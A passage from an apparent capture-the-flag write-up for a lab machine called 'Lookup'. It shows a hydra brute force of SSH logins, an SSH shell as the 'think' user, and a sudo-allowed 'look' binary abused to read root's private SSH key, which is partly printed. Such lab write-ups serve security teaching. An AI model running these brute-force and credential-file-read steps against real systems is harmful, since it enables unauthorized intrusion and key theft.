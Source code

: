 ### **Brute-forcing the Password**

Now that we have a list of possible passwords for the `think` user, we can use `hydra` to test them against the `SSH` service to see if any of them is valid.

```console
$ hydra -l think -P passwords.txt ssh://lookup.thm
...
[22][ssh] host: lookup.thm   login: think   password: jo[REDACTED]k)
1 of 1 target successfully completed, 1 valid password found
```

Since we discovered a valid password, we can use **SSH** to obtain a shell as the `think` user and read the user flag at `/home/think/user.txt`.

```console
$ ssh think@lookup.thm
...
think@lookup:~$ wc -c user.txt
33 user.txt
```

## **Shell as root**

### **Sudo Privilege**

Checking the `sudo` privileges for the `think` user, we can see that we are able to run the `look` binary as `root`.

```console
think@lookup:~$ sudo -l
[sudo] password for think:
Matching Defaults entries for think on lookup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

The `look` binary is similar to `grep` in a sense that its main purpose is to search for lines in a file beginning with a specified string. If it finds any lines that start with the specified string, it prints them.

We can turn this into **arbitrary file read** by specifying the string to search as an empty string, which means every line in the file will match, and it will print the contents of the whole file. We can also see [this method mentioned here in GTFOBins](https://gtfobins.github.io/gtfobins/look/#suid).

Using this method, we are successful at reading the private **SSH** key for the `root` user as such:

```console
think@lookup:~$ sudo /usr/bin/look '' /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...
DgTNYOtefYf4OEpwAAABFyb290QHVidW50dXNlcnZlcg==
-----END OPENSSH PRIVATE KEY-----
```
